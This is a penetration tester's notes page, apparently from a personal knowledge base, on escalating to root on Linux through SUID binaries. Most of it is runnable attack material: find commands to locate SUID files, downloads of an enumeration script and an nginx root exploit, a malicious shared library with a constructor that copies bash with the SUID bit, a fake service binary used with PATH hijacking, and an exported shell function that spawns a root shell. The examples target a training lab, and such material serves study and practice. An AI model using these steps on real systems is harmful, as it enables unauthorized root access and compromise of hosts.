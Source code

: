 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Detection

Files with SUID set run with higher privileges.  Can be found with "s"  on permissions.

-rws-rw-r--

Search for files that have SUID set
```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
OR
```bash - target
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20220219141658.png]]


![[Pasted image 20220219141727.png]]

#### suid3num.py

https://gtfobins.github.io/#+suid

```bash - kali
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
python suid3num.py
```

#### Shared Objection injection
```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219142402.png]]

![[Pasted image 20221115134928.png]]

```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![[Pasted image 20221115134943.png]]

The idea here is to find where we have write privileges, overwrite one of these files with our malicious code.  In this example, that file is /home/user/.config/libcalc.so


libcalc.c
```c - kali
#include <stdio.h>
#include <stdlib.h>


static void inject() __attribute__((constructor));

void inject () {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Verify the output path actually exists.  If not, make it.
Example /home/user/.config

```bash - kali
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

Now just run the original bin:

```bash - kali
/usr/local/bin/suid-so
```

![[Pasted image 20221115135412.png]]

#### CVE-2016-1247 Binary Symlinks
![[3._Automated Tools#Linux Exploit Suggester]]

![[Pasted image 20220219151234.png|1000]]

See if the target has unpatched version of nginx:

```bash - target
dpkg -l | grep nginx
```

```bash - kali
wget https://raw.githubusercontent.com/xl7dev/Exploit/master/Nginx/nginxed-root.sh
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - kali
./nginxed-root.sh /var/log/nginx/error.log
```

Logs must be rotated before exploit works.

#### Environmental Variables (Example 1)
```bash - target
env
```

```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219154119.png]]

/usr/local/bin/suid-env

```bash - target
strings /usr/local/bin/suid-env
```

![[Pasted image 20221115135430.png]]

We see at the bottom it is trying to start Apache by using the service binary.  We will create a malicious service binary.

```bash - target
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

```bash - target
gcc /tmp/service.c -o /tmp/service
```

```bash - target
export PATH=/tmp:$PATH
```

![[Pasted image 20221115135443.png]]

Notice now, that /tmp is first on the list when it looks for binary's.

```bash - target
/usr/local/bin/suid-env
```

#### Environmental Variables (Example 2)

```bash - target
strings /usr/local/bin/suid-env2
```

![[Pasted image 20221115135456.png]]

This one uses services located in /usr/sbin/service.  

```bash - target
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```bash - target
export -f /usr/sbin/service
```

![[Pasted image 20221115135509.png]]
